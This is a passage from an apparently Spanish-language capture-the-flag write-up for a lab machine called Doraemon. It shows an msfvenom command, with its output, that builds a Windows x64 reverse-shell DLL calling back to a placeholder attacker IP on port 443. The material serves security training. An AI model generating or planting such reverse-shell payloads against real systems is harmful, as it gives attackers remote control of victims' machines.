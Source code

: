 Nos menciona otra, pero en mi caso, no me funciono:

<br>

<p align="center">
<img src="/assets/images/THL-writeup-doraemon/Captura2.png">
</p>

<br>

Continuemos.

<br>

* Primero vamos a generar nuestra **Reverse Shell** como un **archivo DLL**:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=Tu_IP LPORT=443 -f dll -o revShell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: revShell.dll
```
